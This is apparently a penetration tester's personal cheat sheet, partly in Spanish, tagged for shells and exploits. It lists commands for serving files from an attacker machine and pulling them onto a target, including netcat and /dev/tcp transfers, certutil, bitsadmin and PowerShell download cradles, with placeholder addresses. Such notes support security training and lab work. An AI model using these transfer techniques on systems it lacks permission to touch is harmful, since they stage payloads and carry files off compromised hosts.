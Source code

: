 [[Apuntes]][[Shell]] [[Exploit]] [[File Transfer]]
### Alojando archivo

| Comando                                                                                                                                   | Descripción                                                                                                            |
| ----------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------- |
| python -m SimpleHTTPServer [PORT] python3 -m http.server [PORT]                                                                           | Python HTTP Server modules                                                                                             |
| service apache2 start; systemctl start apache2;                                                                                           | Apache web server, requires to place files in the /var/www/html/ directory                                             |
| service nginx start; systemctl start nginx                                                                                                | Nginx web server, requires to place files in or /usr/share/nginx/html or /var/www/html                                 |
| php -S 0.0.0.0:PORT                                                                                                                       | PHP builtin web server bundle                                                                                          |
| nc -q 0 -lvp 443 < file                                                                                                                   | Netcat listener to transfer files                                                                                      |
| cat < archivo > /dev/tcp/<IP>/<PORT>                                                                                                      | Send this file to the target, with our <ip> and <port>, the listener must waiting with this: nc -lvnp <port> > archivo |
| nc -nv IP_ADDR 443 < file                                                                                                                 | Netcat command to send files                                                                                           |
| smbserver.py SHARE share_dir                                                                                                              | Impacket’s smbserver.py script simulates a SMB server                                                                  |
| service smbd start; systemctl start smbd                                                                                                  | Linux Samba, a share has to be added to /etc/samba/smb.conf                                                            |
| service pure-ftpd start; systemctl start pure-ftpd; service proftpd start; systemctl start proftpd                                        | Services such as pure-ftpd and proftpd can be used to setup FTP servers                                                |
| atftpd –daemon –port 69 ftp_dir                                                                                                           | The atftpd utility allows to easily setup a TFTP server                                                                |
| ruby -rwebrick -e’WEBrick::HTTPServer.new(:Port => PORT, :DocumentRoot => Dir.pwd).start’                                                 | Ruby web server using the Web brick library                                                                            |
| ruby -run -e httpd . -p [PORT]                                                                                                            | Ruby simple http server                                                                                                |
| cpan HTTP::Server::Brick; perl -MHTTP::Server::Brick -e ‘$s=HTTP::Server::Brick->new(port=>PORT); $s->mount(“/”=>{path=>”.”}); $s->start’ | Perl Brick HTTP Server                                                                                                 |
| “C:\Program Files (x86)\IIS Express\iisexpress.exe” /path:C: /port:PORT                                                                   | Microsoftg IIS Express                                                                                                 |
| base64 file;                                                                                                                              | Encoding the the file using base 64 and decoding it in the target machine                                              |

---

### Descargar el archivo

|Comando|Descripción|
|---|---|
|wget http://ip-addr:port/file [-o output_file]|Wget comes preinstalled with most Linux systems|
|curl http://ip-addr:port/file -o output_file|Curl comes preinstalled with most Linux and some Windows systems|
|certutil -f-urlcache -split http://ip-addr:port/file output_file|Certutil is a Windows builtin command line tool|
|powershell -c Invoke-WebRequest -Uri http://ip-addr:port/file -OutFile output_file; powershell -c (New-Object Net.WebClient).DownloadFile(‘http://ip-addr:port/file’, ‘output_file’)|Powershell Invoke-WebRequest cmdlet or the System.Net.WebClient class|
|||
|bitsadmin /transfer job /download /priority high http://IP_ADDR/file output_file|Bitsadmin Windows command-line tool|
|nc -nv IP_ADDR 443 > file|Netcat command to download files from a Netcat listener|
|nc -q 0-lvp 443 > file|Netcat listener to receive files|
|copy \IP_ADDR\SHARE\output_file|Copy command to download files from an SMB share|
|smbget smb://domain;user[:password@]server/share/path/file|smbget utility to download files from a Samba share|
|Wget wget [ftp://user](ftp://user/):password@IP_ADDR/path/file -o output_file FTP echo open 192.168.1.64 21> ftp.txt echo anonymous>> ftp.txt echo [ftp@ftp.com](mailto:ftp@ftp.com)>> ftp.txt echo bin >> ftp.txt echo get test.txt >> ftp.txt echo bye >> ftp.txt ftp -s:ftp.txt|Wget and FTP to download files from an FTP server|
|tftp|tftp -i IP_ADDR {GET \| PUT} file|
|scp /path/file username@IP_ADDR:/path/file|Secure File Copy SSH tool|
|[https://gist.github.com/Richienb/51021a1c16995a07478dfa20a6db725c](https://gist.github.com/Richienb/51021a1c16995a07478dfa20a6db725c)|Windows Virtual Basic scripts|
|php -r “file_put_contents(‘output_file’, fopen(‘http://ip-addr:port/file’, ‘r’));”|PHP file_put_contents function|
|python -c ‘from urllib import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’; python3 -c ‘from urllib.request import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’|The Python urlretrieve function which is part of the urllib library can be used to download files|
|perl -MLWP::Simple -e ‘getstore(“http://IP_ADDR/file”, “out_file”)’; perl -e ‘use LWP::Simple; getstore(“http://IP_ADDR/file”, “out_file”)’|Library for WWW in Perl|
|ruby -e ‘require “open-uri”;File.open(“output_file”, “wb”) do \|file\|;URI.open(“http://ip-addr:port/file”).read;end’|Ruby Open-URI library|
|echo -n “base64-output” > file|Decoding the base64 output of the file|
